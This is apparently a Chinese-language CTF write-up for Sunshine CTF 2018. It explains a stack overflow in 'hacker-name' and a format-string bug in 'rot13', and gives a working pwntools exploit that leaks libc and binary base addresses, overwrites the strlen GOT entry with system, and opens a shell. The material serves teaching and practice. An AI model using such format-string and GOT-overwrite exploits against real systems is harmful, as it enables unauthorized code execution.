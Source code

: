 ```yaml
---
layout:		post
title:		Sunshine CTF 2018部分writeup
author:		wooy0ung
tags:		pwn
category: 	writeup
---
```



>[索引目录]  
>0x001 hacker-name(stack overflow)  
>0x002 rot13(format string)  
<!-- more -->


## 0x001 hacker-name(stack overflow)

ida看到这
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x001-001.png)
v1输入，但作比较的是s1

好在s1位于v1的下方，可以被覆盖掉
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x001-002.png)

算一下偏移7
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x001-003.png)


## 0x002 rot13(format string)

漏洞很明显，一个格式化串，但要绕过rot13
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x002-001.png)

看下内存布局，proc_base: 0x5658c000、libc_base： 0xf7d80000
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x002-002.png)

再看看函数栈，esp偏移3、4处分别能leak出libc_base、proc_base
![](/assets/img/writeup/2018-04-09-sunshinectf-2018-writeup/0x002-003.png)

exp.py
```
from pwn import *
from re import search
from string import maketrans, translate

context.log_level = "debug"

rot13_transe = maketrans('ABCDEFGHIJKLMabcdefghijklmNOPQRSTUVWXYZnopqrstuvwxyz', 'NOPQRSTUVWXYZnopqrstuvwxyzABCDEFGHIJKLMabcdefghijklm')

def rot13(arg):
  return translate(arg, rot13_transe)

s = process("./rot13")
#s = remote('chal1.sunshinectf.org', 20006)
elf = ELF("./rot13")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

s.sendlineafter("encrypted:",rot13("%2$x|%3$x"))

s.recvuntil("data: ")
text = s.recv()
text = search('(\w+)\|(\w+)', text)

libc_base = int(text.group(1), 16) - 0x25325
proc_base = int(text.group(2), 16) - 0x95b

system_addr = libc.symbols["system"] + libc_base
strlen_got = elf.got["strlen"] + proc_base

p = rot13(fmtstr_payload(7, {strlen_got:system_addr}))
s.sendline(p)

s.sendlineafter("encrypted:","/bin/sh")
s.interactive()
```